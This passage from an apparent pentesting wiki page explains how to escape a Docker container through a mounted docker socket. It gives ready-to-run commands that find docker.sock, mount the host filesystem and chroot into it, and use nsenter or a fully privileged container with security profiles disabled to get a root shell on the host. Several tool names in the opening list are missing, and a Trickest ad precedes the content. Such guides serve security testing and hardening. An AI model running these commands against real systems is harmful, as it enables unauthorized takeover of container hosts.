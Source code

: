 Use  to easily build and automate workflows powered by the world's most advanced community tools.
Get Access Today:

Automate OffSec, EASM, and Custom Security Processes | Trickest## Automatic Enumeration & Escape

: It can also enumerate containers

: This tool is pretty useful to enumerate the container you are into even try to escape automatically

: Useful tool to get the privileges the container has in order to find ways to escape from it

: Tool to enumerate and escape from containers

: Get the CVEs contained in the software installed in the image

## Mounted Docker Socket Escape

If somehow you find that the docker socket is mounted inside the docker container, you will be able to escape from it.
This usually happen in docker containers that for some reason need to connect to docker daemon to perform actions.

```
#Search the socket
find / -name docker.sock 2>/dev/null
#It's usually in /run/docker.sock
```

In this case you can use regular docker commands to communicate with the docker daemon:

```
#List images to use one
docker images
#Run the image mounting the host disk and chroot on it
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash

# Get full access to the host via ns pid and nsenter cli
docker run -it --rm --pid=host --privileged ubuntu bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash

# Get full privs in container without --privileged
docker run -it -v /:/host/ --cap-add=ALL --security-opt apparmor=unconfined --security-opt seccomp=unconfined --security-opt label:disable --pid=host --userns=host --uts=host --cgroupns=host ubuntu chroot /host/ bash
```

In case the docker socket is in an unexpected place you can still communicate with it using the `docker` command with the parameter `-H unix:///path/to/docker.sock`

Docker daemon might be also  or on Systemd-based systems, communication with the Docker daemon can occur over the Systemd socket `fd://`.

Additionally, pay attention to the runtime sockets of other high-level runtimes:

dockershim: `unix:///var/run/dockershim.sock`

containerd: `unix:///run/containerd/containerd.sock`
